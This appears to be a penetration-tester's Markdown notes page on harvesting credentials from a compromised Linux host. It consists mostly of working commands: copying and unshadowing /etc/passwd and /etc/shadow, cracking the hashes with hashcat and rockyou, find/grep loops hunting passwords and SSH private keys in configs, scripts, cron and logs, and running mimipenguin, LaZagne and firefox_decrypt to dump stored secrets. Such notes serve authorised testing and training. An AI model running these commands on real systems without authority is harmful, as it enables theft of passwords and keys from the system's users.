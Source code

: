 ### Content
- [Cracking Linux Credentials](#cracking-linux-credentials)
---
## Cracking Linux Credentials
If the attacker had admin privileges over the system to access `shadow` and `passwd` files.
1. Unshadow
	``` bash
	$ sudo cp /etc/passwd /tmp/passwd.bak
	$ sudo cp /etc/shadow /tmp/shadow.bak
	$ unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
	```
2. Hashcat - Cracking Unshadowed Hashes
	``` bash
	hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
	```

> [!Note]
> In case of using MD5 hashing algorithm, Collect the hashes into a file, one hash value per line, then use the next command to crack them.
> `hashcat -m 500 -a 0 md5-hashes.list rockyou.txt`

---
## Credential Hunting in Linux
There are man resources than can contain credentials:
- Files:
	``` bash
	# Configs
	for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
	# Search for specific words inside the config file (ex: user, password, pass)
	for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
	
	# Databases
	for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
	
	# Notes
	find /home/* -type f -name "*.txt" -o ! -name "*.*"
	
	# Scripts
	for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
	
	# Cronjobs
	find /etc -type d -name '*cron*' -exec sh -c 'echo "Parent Directory: $1"; ls -lah "$1"' sh {} \;
	ls -la /etc/cron.*/
	
	# SSH Keys
	# Files that contain a private SSH key
	grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
	# Files that contain a public SSH key
	grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
	```
- Logs
	``` bash
	# Some strings we can use to find interesting content in the logs
	for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep \
	"accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" \
	$i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep \
	"accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
	```
- `.bash_history` on the user home directory.
- Memory and Cache
	- [mimipenguin](https://github.com/huntergregal/mimipenguin) can be used to dump credentials from the running processes and memory.
		``` bash
		$ sudo python3 mimipenguin.py # or sudo bash mimipenguin.sh
		```
	- [LaZagne](https://github.com/AlessandroZ/LaZagne/tree/master) can be used to dump credentials from various services.
		``` bash
		$ python3 laZagne.py all
		```
- Browsers
	- `Mozilla Firefox` browser stores the credentials encrypted in a hidden folder.
		``` bash
		$ ls -l .mozilla/firefox/ | grep default 
		
		drwx------ 11 user user 4096 Jan 28 16:02 1bplpd86.default-release
		drwx------  2 user user 4096 Jan 28 13:30 lfx3lvhb.default
		
		cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
		```
		- The tool [Firefox Decrypt](https://github.com/unode/firefox_decrypt) is excellent for decrypting these credentials
			``` bash
			python3.9 firefox_decrypt.py
			```
		- We can also use [LaZagne](https://github.com/AlessandroZ/LaZagne/tree/master) with `browsers` flag
			``` bash
			python3 laZagne.py browsers
			```
